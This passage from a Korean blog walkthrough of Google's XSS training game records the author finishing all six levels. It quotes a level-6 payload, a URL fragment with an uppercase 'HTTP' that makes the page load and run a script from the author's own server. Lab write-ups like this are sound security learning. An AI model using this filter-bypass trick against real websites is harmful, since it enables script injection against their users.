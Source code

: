 ![]({{ site.baseurl }}/images/xssgame/xssgame_18.PNG)

---  

이렇게 6단계의 문제를 모두 풀 수 있었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_19.PNG)

마지막 문제에서 어떤 부분 때문인지 , 이론상으론 될 것 같은데 문제가 풀리지 않아 오래 고민을 했다.  

그런데 문제를 다 푼 다음에 도대체 왜 안되는지를 모르겠어서, 처음에 시도한 방법을 다시 해 보았더니 이번엔 문제가 풀렸다.  

```
http://xss-game.appspot.com/level6/frame#HTTP://내서버의주소/test.js
```

![]({{ site.baseurl }}/images/xssgame/xssgame_20.PNG)

기준이 따로 있는건지 뭔지 모르겠다.  

어찌됬든 6문제 모두 CLEAR!  
